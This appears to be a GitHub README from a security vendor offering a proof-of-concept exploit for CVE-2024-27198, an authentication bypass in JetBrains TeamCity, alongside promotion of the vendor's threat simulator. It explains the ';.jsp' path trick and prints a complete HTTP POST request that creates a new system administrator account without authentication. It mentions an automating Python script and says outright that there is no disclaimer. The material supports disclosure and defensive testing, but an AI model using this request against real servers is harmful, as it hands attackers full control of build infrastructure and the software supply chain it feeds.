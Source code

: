# JetBrains TeamCity CVE-2024-27198 PoC Exploit
Recently, JetBrains disclosed a critical vulnerability affecting JetBrains TeamCity CI/CD server products.<br><br>
In this repo, Picus provides Proof-of-Concept exploit for the CVE-2024-27198 vulnerability.

Test security controls against the CVE-2024-27198 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2024-27198 vulnerability exploits for free. No setup or signup required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 

If you are looking for more detailed information check out our blog post: [CVE-2024-27198 and CVE-2024-27199: JetBrains TeamCity Authentication Bypass Vulnerabilities Explained](https://www.picussecurity.com/resource/blog/cve-2024-27198-cve-2024-27199)

CVE-2024-27198 Proof-of-concept (POC)
----------------------
CVE-2024-27198 vulnerability is caused by a CWE-288 weakness found in BaseController class of web-openapi.jar library. When an API endpoint receives a request appended with. jsp, the BaseController class allows the request to bypass authentication.
The example HTTP POST request below exploits CVE-2024-27198 vulnerability to add a new administrator user. Note the ";.jsp" located after the API endpoint.

As a PoC there is a python file that automates the process. 

#### Example CVE-2024-27198 Exploit:
```http
POST /notexist?jsp=/app/rest/users;.jsp HTTP/1.1
Content-Type: application/json
Content-Length: 120

{"username": "test", "password": "test", "email": "test", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}
```

Disclaimer
----------
We do not have any disclamer.
